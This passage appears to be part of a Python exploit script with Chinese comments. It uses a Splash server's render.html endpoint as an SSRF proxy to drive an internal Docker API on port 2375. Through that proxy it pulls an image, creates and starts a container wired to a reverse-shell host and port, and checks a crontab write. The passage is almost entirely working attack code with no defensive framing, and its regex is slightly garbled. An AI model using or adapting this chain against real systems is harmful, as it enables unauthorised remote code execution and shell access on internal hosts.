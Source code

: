 ```
    print("-" * 50)
    return container_id
def start_container(api, docker_api, container_id):
    url = "%s/render.html" % api
    docker_url = '%s/containers/%s/start' % (docker_api, container_id)
    params = `{`
        'http_method': 'POST',
        'url': docker_url,
        'timeout': 10
    `}`
    resp = requests.post(url, params=params, json=`{`
        'headers': `{`'Content-Type': 'application/json'`}`,
        "body": "",
    `}`)
    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)
    print("-" * 50)
def get_result(api, docker_api, container_id):
    url = "%s/render.html" % api
    docker_url = '%s/containers/%s/json' % (docker_api, container_id)
    params = `{`
        'url': docker_url
    `}`
    resp = requests.get(url, params=params, json=`{`
        'headers': `{`
            'Accept': 'application/json'`}`,
    `}`)
    print(resp.request.url)
    print(resp.status_code)
    result = re.search('"ExitCode":(w+),"', resp.text)
    exit_code = result.group(1)
    if exit_code == '0':
        print('success')
    else:
        print('error')
    print("-" * 50)
if __name__ == '__main__':
    # splash地址和端口
    splash_host = '192.168.1.120'
    splash_port = 8050
    # 内网docker的地址和端口
    docker_host = '172.16.10.74'
    docker_port = 2375
    # 反弹shell的地址和端口
    shell_host = '192.168.1.213'
    shell_port = 12345
    splash_api = "http://%s:%d" % (splash_host, splash_port)
    docker_api = 'http://%s:%d' % (docker_host, docker_port)
    # docker image，存在docker hub上
    image_name = 'b1ngz/busybox'
    image_tag = 'latest'
    # 拉取 image
    pull_image(splash_api, docker_api, image_name, image_tag)
    # 创建 container
    container_id = create_container(splash_api, docker_api, image_name, image_tag, shell_host, shell_port)
    # 启动 container
    start_container(splash_api, docker_api, container_id)
    # 获取写入crontab结果
    get_result(splash_api, docker_api, container_id)
```
